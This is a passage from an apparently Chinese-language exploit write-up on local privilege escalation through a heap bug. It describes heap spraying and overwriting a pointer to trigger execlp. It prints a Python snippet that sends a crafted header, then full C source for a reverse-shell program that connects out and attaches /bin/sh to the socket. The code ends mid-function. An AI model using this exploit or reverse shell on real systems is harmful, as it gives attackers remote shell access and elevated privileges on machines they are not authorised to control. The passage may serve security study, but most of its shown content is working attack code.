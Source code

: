 ```
# trigger execlp
sdata = b''
sdata += struct.pack("I",0x2222CCCC) #version
sdata += b"\x58\x01\xda\x00\x00\x00\x00\x00" #headersize
con_list[15].send(sdata)
```  
  
  
  
大致的 exp 如上，先将参数打入到堆内存的首部，然后再往之后的堆内存里去堆字符串的地址。最后在覆盖 self->in_s 时候用一个堆地址去撞。  
###   
### 第二法与例外  
  
  
在堆喷失败以后，笔者又试了一下其他的方法，最终认为，如果我们只需要在本机上进行提权，完全不需要这么麻烦去构造一个 execlp 的调用链。  
  
  
首先，我们可以先写一个用于反弹 shell 的程序，用静态编译的方法将其编译到 ”/tmp/x“：  
```
#include <stdio.h>
#include<stdlib.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <unistd.h>
#include <fcntl.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <unistd.h>
#include <fcntl.h>
#include <netinet/in.h>
#include <netdb.h>
char shell[]="/bin/sh";
char message[]="hi hacker welcome";
int sock;
int main(int argc, char *argv[]) {
    struct sockaddr_in server;
    if((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
    printf("Couldn't make socket!n"); exit(-1);
    }
 
    server.sin_family = AF_INET;
    server.sin_port = htons(atoi("10000"));
    server.sin_addr.s_addr = inet_addr("0.0.0.0");
 
    if(connect(sock, (struct sockaddr *)&server, sizeof(struct sockaddr)) == -1) {
    printf("Could not connect to remote shell!n");
    //exit(-1);
    //    return -1;
        exit(-1);
    }
    send(sock, message, sizeof(message), 0);
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
    execl(shell,"/bin/sh",(char *)0);
    close(sock);
    return 1;
    }
    void usage(char *prog[]) {
    printf("Usage: %s <reflect ip> <port>\n", prog);
    //exit(-1);
    //    return -1;
        exit(-1);
```